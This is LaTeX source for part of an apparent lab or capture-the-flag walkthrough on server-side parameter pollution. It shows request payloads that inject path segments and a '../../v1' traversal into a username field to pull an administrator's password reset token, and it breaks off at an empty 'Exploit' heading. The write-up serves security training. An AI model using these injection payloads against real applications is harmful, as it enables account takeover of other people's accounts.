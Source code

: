 \documentclass[11pt]{article}
\begin{document}
\subsection{Phase 3 --- Enumerate the \texttt{field} Parameter}

\begin{enumerate}
  \item Inject the discovered endpoint structure with an invalid field:
\begin{httpbox}[]
username=administrator/field/foo%
\end{httpbox}
  Response: error stating only \texttt{email} is supported.

  \item Confirm \texttt{email} is valid:
\begin{httpbox}[]
username=administrator/field/email%
\end{httpbox}
  Response: original (normal) $\Rightarrow$ valid field type confirmed.
\end{enumerate}

\subsection{Phase 4 --- Extract the Reset Token}

\begin{enumerate}
  \item Review \texttt{/static/js/forgotPassword.js}. Locate the reset parameter:

  \item Request \texttt{passwordResetToken} as the field value:
\begin{httpbox}[]
username=administrator/field/passwordResetToken%
\end{httpbox}
  Response: error --- parameter not supported by this API version.

  \item Use the API definition to target the correct version explicitly:
\begin{httpbox}[]
username=../../v1/users/administrator/field/passwordResetToken%
\end{httpbox}
  Response: \textbf{password reset token} returned in plaintext.
\end{enumerate}

\subsection{Phase 5 --- Exploit}
\end{document}
